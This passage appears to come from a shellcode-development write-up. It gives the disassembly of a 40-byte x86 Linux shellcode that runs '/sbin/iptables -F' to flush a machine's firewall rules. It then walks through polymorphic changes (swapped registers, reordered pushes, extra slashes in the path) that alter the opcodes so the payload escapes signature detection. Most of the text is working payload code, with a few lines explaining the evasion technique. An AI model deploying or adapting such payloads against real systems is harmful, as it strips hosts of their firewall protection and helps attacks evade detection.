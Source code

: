 ### The original shellcode
The size of the shellcode is 40 bytes.
```nasm
08048080 <_start>:
8048080:	6a 0b                	push   0xb        ;
8048082:	58                   	pop    eax        ; eax = 11 (execve)
8048083:	99                   	cdq               ; edx = 0 (eax extend)
8048084:	52                   	push   edx        ; push null byte to stack
8048085:	66 68 2d 46          	pushw  0x462d     ; "F-"
8048089:	89 e1                	mov    ecx,esp    ; ecx = pointer to "-F"
804808b:	52                   	push   edx        ; push null byte to stack
804808c:	66 68 65 73          	pushw  0x7365     ; "se"
8048090:	68 74 61 62 6c       	push   0x6c626174 ; "lbat"
8048095:	68 6e 2f 69 70       	push   0x70692f6e ; "pi/n"
804809a:	68 2f 73 62 69       	push   0x6962732f ; "ibs/"
804809f:	89 e3                	mov    ebx,esp    ; ebx = /sbin/iptables
80480a1:	52                   	push   edx        ; push edx (\0)
80480a2:	51                   	push   ecx        ; push ecx (-F)
80480a3:	53                   	push   ebx        ; push ebx (/sbin/iptables)
80480a4:	89 e1                	mov    ecx,esp    ; ecx = pointer to stack
80480a6:	cd 80                	int    0x80       ; execve
```

### The changes
In this example the changes are made by doing three things different: Changing registers used, changing order in which strings are pushed to the stack, and changing the program path by adding in some slashes.

#### Changing registers
EDX is no longer used in the new shellcode and instead EAX is used to push null bytes.  At the very end we re-use this register to indirectly push 11 into it.
```nasm
xor eax,eax
...
mov ax,0xa
inc ax
```

#### Changing order of pushes
The original shellcode pushed in the expected order of "-F" then "/sbin/iptables".  In the new version this is flipped but of course, in the end we still must push the pointers to the strings in the proper order and that cannot change.

#### Changing program path
Finally, we change the program path from "/sbin/iptables" to "//sbin//iptables".  We can add as many slashes as we want and this has no effect on things executing properly.  Performing this small action changes the opcodes.

Before:
```nasm
66 68 65 73          	pushw  0x7365
68 74 61 62 6c       	push   0x6c626174
68 6e 2f 69 70       	push   0x70692f6e
68 2f 73 62 69       	push   0x6962732f
```
After:
```nasm
68 62 6c 65 73       	push   0x73656c62
68 69 70 74 61       	push   0x61747069
68 69 6e 2f 2f       	push   0x2f2f6e69
68 2f 2f 73 62       	push   0x62732f2f
```
